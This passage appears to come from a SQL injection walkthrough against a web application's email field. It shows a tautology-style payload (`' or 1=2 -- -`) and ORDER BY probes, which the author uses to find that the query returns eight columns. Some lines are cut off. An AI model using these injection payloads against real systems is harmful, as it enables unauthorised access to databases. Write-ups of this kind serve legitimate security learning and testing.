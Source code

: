 3. Try to use an non-exist mail with payload

```
23@123.com' or 1=2 -- -
```

![](./IMG/12.png)

> Show the 

4. Try to use order by strings to confirm the column number

> After trying from 1.
> I can confirm the total column is 8

```
123@123.com' ORDER BY 8-- -
```

![](./IMG/16.png)

> When I add to 9, it will show 500 server error 

```
123@123.com' ORDER BY 9-- -
```
